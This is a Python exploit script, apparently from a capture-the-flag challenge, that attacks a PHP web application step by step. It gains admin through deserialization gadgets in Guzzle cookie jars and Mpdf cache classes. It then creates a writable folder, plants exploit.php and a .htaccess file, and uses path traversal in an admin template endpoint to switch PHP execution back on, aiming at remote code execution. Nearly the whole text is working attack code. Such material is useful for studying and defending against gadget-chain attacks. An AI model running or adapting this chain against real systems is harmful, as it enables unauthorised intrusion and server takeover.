 ```py
S.get(f"{chall_url}/")

# Login
S.post(f"{chall_url}/login",data={"_token": get_csrf_token(""), "email": "a@a.fr", "password":"a"}, cookies=S.cookies.get_dict())

# Step 1 - Privesc to admin
S.post(f"{chall_url}/form", json={"_token": get_csrf_token("form"), "content": get_b64_content(), "nb_fields": 1, "name": "admin", "renderer": "GuzzleHttp\\Cookie\\SessionCookieJar"}, cookies=S.cookies.get_dict())
S.get(f"{chall_url}/form?id=admin", cookies=S.cookies.get_dict())

if(S.get(f"{chall_url}/admin", allow_redirects=False, cookies=S.cookies.get_dict()).status_code == 200):
    print("[+] Privesc to admin: done")
else:
    print("[-] Privesc to admin failed...")
    sys.exit(-1)

# Step 2 - Arbitrary folder creation in /application/public/
S.post(f"{chall_url}/form", json={"_token": get_csrf_token("form"), "content": get_b64_content(), "nb_fields": 1, "name": folder_base, "renderer": "Mpdf\\Cache"}, cookies=S.cookies.get_dict())
S.get(f"{chall_url}/form?id={folder_base}", cookies=S.cookies.get_dict())

if(S.get(f"{chall_url}/pdf/exploit/", cookies=S.cookies.get_dict()).status_code == 403):
    print("[+] Arbitrary folder creation with 777 mode: done")
else:
    print("[-] Arbitrary folder creation with 777 mode: failed...")
    sys.exit(-1)

# Step 3 - Arbitrary file creation of exploit.php in previous folder
S.post(f"{chall_url}/form", json={"_token": get_csrf_token("form"), "content": get_b64_content(), "nb_fields": 1, "name": f"{folder_base}{file_rce}", "renderer": "GuzzleHttp\\Cookie\\FileCookieJar"}, cookies=S.cookies.get_dict())
S.get(f"{chall_url}/form?id={folder_base}{file_rce}", cookies=S.cookies.get_dict())

if(S.get(f"{chall_url}/pdf/exploit/exploit.php", cookies=S.cookies.get_dict()).status_code == 200):
    print("[+] Arbitrary file creation (exploit.php): done")
else:
    print("[-] Arbitrary file creation: failed...")
    sys.exit(-1)

# Step 4 - Arbitrary file creation of .htaccess in previous folder
S.post(f"{chall_url}/form", json={"_token": get_csrf_token("form"), "content": get_b64_content(), "nb_fields": 1, "name": f"{folder_base}.htaccess", "renderer": "GuzzleHttp\\Cookie\\FileCookieJar"}, cookies=S.cookies.get_dict())
S.get(f"{chall_url}/form?id={folder_base}.htaccess", cookies=S.cookies.get_dict())

if(S.get(f"{chall_url}/pdf/exploit/.htaccess", cookies=S.cookies.get_dict()).status_code == 500):
    print("[+] Arbitrary file creation (.htaccess): done")
else:
    print("[-] Arbitrary file creation (.htaccess): failed...")
    sys.exit(-1)

# Step 5 - Create a .htaccess in created folder to reactivate php
if(S.post(f"{chall_url}/admin/logs/template", data={"_token": get_csrf_token("form"), "template": "php_flag engine on", "file": f"../../../../../../../../{folder_base}/.htaccess"}, cookies=S.cookies.get_dict(), allow_redirects=False).status_code == 302):
    print("[+] Override created .htaccess file : done")
else:
    print("[-] Override created .htaccess file : failed...")
    sys.exit(-1)

```